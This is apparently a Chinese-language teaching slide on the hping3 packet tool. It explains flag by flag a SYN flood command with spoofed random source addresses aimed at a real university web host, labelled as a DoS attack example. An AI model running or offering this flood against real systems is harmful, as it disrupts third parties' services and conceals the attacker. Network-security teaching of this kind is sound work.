

hping3
hping3是一款面向TCP/IP协议的免费的数据包生成和分析工具。Hping是用于对防火墙和网络执行安全审计和测试的事实上的工具之一。hping3可使用Tcl语言编写脚本，实施了一个引擎，可用于对TCP/IP数据包进行基于字符串、人可读的描述等。
命令结构
hping3 -c 1000 -d 120 -S  -w 64 -p 80 —flood —rand-source www.hdu.edu.cn
　　-c 1000  发送的数据包的数量。
　　-d 120  发送到目标机器的每个数据包的大小。
　　-S  只发送SYN数据包。
　　-w 64  TCP窗口大小。
　　-p 80  目的地端口。
　　--flood  尽可能快地发送数据包，不需要考虑显示入站回复。洪水攻击模式。
　　--rand-source  使用随机性的源头IP地址。还可以使用-a或–spoof来隐藏主机名。
　　www.hdu.edu.cn 目的地IP地址或目标机器的IP地址。
实例应用
SYN泛洪攻击（DOS）